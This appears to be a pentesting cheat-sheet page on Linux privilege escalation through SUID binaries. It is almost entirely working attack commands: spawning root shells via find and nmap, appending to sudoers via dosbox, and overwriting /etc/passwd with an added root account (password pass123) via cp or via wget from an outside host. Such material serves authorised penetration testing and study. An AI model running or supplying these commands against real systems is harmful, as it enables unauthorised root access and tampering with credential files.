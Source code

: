 ```yaml
---
description: Using programs which has SUID bit to root shell.
---
```


# SUID

```
find / -perm -u=s -type f 2>/dev/null
```

{% embed url="https://gtfobins.github.io" %}

### dosbox

```
$ dosbox -c 'mount c /etc' -c 'echo test ALL=(ALL) ALL >> C:\sudoers' -c exit
```

### find

```
find . -exec /bin/sh -p \; -quit
```

### cp

[https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/](https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/)

```
$ openssl passwd -1 -salt ignite pass123
$1$ignite$3eTbJm98O9Hz.k1NTdNxe1

$ mkdir /tmp/privesc && cd /tmp/privesc
$ cp /etc/passwd .
$ cp passwd passwd.bak

$ echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> ./passwd
$ cp ./passwd /etc/passwd

$ su ch
password: pass123

# Restoring the original
$ cp /tmp/privesc/passwd /etc/passwd && rm -rf /tmp/privesc
```

### nmap

```
$ nmap --interactive
nmap> !sh

-----------------------

$ TF=$(mktemp)
$ echo 'os.execute("/bin/bash")' > $TF
$ nmap --script=$TF

-----------------------

$ echo 'os.execute("/bin/sh")' > /tmp/x.nse
$ nmap --script /tmp/x.nse
```

### wget

```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/wget
```

Copy contents of /etc/passwd to your host as passwd.

Add this user with this command:

```
echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> passwd
```

**ch:pass123**

```
$ wget http://192.168.49.60/passwd -O /etc/passwd
$ su ch
password:pass123
```
